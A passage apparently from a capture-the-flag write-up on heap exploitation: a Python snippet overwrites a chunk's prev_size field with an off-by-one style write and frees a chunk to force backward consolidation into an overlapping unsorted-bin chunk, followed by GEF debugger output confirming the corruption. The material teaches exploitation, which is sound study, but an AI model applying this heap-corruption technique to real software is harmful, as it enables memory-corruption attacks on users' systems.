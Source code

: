 ```py
# heap_list[0] => chunk_1 (0x71)
# this set the prev_size field of chunk_2
new_heap(0x68, b'b' * 0x60 + p64(0x580))

# when we free chunk_2, it consolidates with chunk_0
# therefore, we have a overlapping free chunk with chunk_1
# the resulting big chunk will be put in the unsorted bin
delete_heap(2)
```

Doing so,

```asm
gef➤  heap bins
──────────────────────────────────────────────────── Tcachebins for arena 0x7ffff7dcdc40 ────────────────────────────────────────────────────
───────────────────────────────────────────────────── Fastbins for arena 0x7ffff7dcdc40 ─────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
──────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555757250, bk=0x555555757250
 →   Chunk(addr=0x555555757260, size=0xb80, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
───────────────────────────────────────────────────── Small Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────────────────────────────────────────── Large Bins for arena 'main_arena' ─────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
gef➤  x/10xg  0x0000555555554000 + 0x202060
0x555555756060:	0x0000555555757770	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000555555757de0
0x555555756080:	0x0000000000000000	0x0000000000000000
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
gef➤  x/30xg 0x0000555555757770
0x555555757770:	0x6262626262626262	0x6262626262626262
0x555555757780:	0x6262626262626262	0x6262626262626262
0x555555757790:	0x6262626262626262	0x6262626262626262
0x5555557577a0:	0x6262626262626262	0x6262626262626262
0x5555557577b0:	0x6262626262626262	0x6262626262626262
0x5555557577c0:	0x6262626262626262	0x6262626262626262
0x5555557577d0:	0x0000000000000580	0x0000000000000600 <-------------- The prev_size has been overwritten
```
